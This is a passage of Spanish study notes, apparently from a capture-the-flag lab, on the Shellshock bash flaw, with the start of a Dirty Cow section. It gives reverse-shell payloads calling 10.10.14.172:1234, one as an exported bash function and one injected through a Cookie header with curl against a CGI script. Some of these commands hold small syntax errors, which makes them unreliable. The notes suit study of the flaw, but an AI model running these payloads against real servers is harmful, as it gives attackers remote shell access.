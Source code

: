 Creamos una variable llamada `testvar` en nuestra Shell, podemos recuperar siempre su valor. Sin embargo si creamos un proceso hijo Bash, no estará disponible.

Para que perdure, deberíamos declararla de manera global y exportarla.

Igual que se definen y se exportan las variables, también se pueden exportar funciones. Por ejemplo una función $x$ que haga echo de la cadena de caracteres $\texttt{shellshock}$.

```bash
x() { echo 'shellshock'} # Definimos la variable
x # La llamamos y nos devuelve shellshock
export -f x # Lo exportamos de manera global
bash # Ejecutamos proceso hijo
x # Nos devuelve shellshock
```

```bash
export testfunc='() { echo "shellshock"; }' # Declaramos la variable y la mostramos
echo $testfunc

testfunc
bash: No such file or directory # Al ejecutarlo vemos que no puede

bash # Creamos una Shell hija se importan todas las funciones y variables golbales
testfunc # Aquí si que vemos que la salida es shellshock
```

Ahora si que si, creamos el script malicioso para obtener acceso.

```bash
export revshell='() {bash -i& /dev/tcp/10.10.14.172/1234 0>&1; }'
echo revshell # La salida sería bash -i& /dev/tcp/10.10.14.172/1234 0>&1
bash # Nos metemos en una Shell hija, exportando la función revshell
revshell # Escuchando con netcat, obtendríamos acceso a la máquina
```

Todo esto es de manera local, para explotarlo en remoto, necesitaríamos un servidor vulnerable en este servicio además de una versión bash vulnerable.

- Ej: un Apache con CGI habilitado utiliza bash para procesar las peticiones

Con la siguiente petición HTTP

```bash
curl -H 'Cookie: () { :;}; /bin/bash -i& /dev/tcp/10.10.14.172/1234 0>&1'
# Nos conectariamos a http://10.129.169.110/cgi-bin/user.sh
```

Al lanzar esta petición, el servidor apache coge esa cookie y se la pasa al script sh, conseguimos una reverse shell.

## Dirty Cow

<aside>
✖️

CVE-2016-5195 → presente en las versiones de Kernel desde la 2.6.22 hasta la versión 4.8.3
